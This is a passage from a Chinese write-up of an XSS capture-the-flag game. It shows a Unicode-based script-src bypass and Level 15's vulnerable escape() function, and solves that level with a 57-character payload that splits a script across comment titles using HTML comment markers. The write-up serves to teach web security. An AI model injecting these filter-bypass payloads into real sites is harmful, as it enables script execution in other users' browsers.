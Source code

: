 IE 下

```
"><script/async/src="/〳⒛₨

<img src=""><SCRIPT/ASYNC/SRC="/〳⒛₨">

```

### 背景知识

这里再次使用了 Unicode 字符绕过。

## Level 15

* * *

过滤了*,所以不能使用 js 注释/*，但是前面也提到了，html 里面的`<!--`,`-->`同样可以在 js 中使用，如下

```
<p class="comment" title=""><svg><!--" data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt(1<!--" data-comment='{"id":2}'></p>
<p class="comment" title="-->)</script>" data-comment='{"id":3}'></p>

```

### 代码

```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}

```

### 答案

57 个字符

```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>

```

在 Firefox 和 IE 下，`</script>`不需要，可以减少到 42 个字符
